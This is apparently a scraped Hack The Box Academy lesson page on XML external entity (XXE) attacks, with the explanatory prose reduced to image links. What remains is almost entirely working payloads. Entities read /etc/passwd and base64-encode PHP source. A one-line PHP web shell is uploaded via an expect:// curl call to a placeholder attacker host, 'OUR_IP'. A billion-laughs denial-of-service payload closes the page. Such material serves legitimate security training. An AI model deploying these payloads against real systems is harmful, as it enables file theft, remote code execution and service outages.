 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/134/section/1204
// Platform Version: V1
// Module ID: 134
// Module Name: Web Attacks
// Module Difficulty: Medium
// Section ID: 1204
// Section Title: Local File Disclosure
// Page Title: Hack The Box - Academy
// Page Number: 14
-->

# Local File Disclosure

**Module Name:** Web Attacks **Page Number:** 14

#### 

#### WEB ATTACKS

# Local File Disclosure

## Identifying

![https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_identify.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_identify.jpg)

![https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_request.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_request.jpg)

![https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_response.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_response.jpg)

``` xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

![https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_new_entity.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_new_entity.jpg)

## Reading Sensitive Files

``` xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

![https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_external_entity.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_external_entity.jpg)

## Reading Source Code

![https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_file_php.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_file_php.jpg)

``` xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

![https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_php_filter.jpg](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_php_filter.jpg)

## Remote Code Execution with XXE

``` shell-session
[!bash!]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
[!bash!]$ sudo python3 -m http.server 80
```

``` xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

## Other XXE Attacks

``` xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

# 

# 

#### Questions

####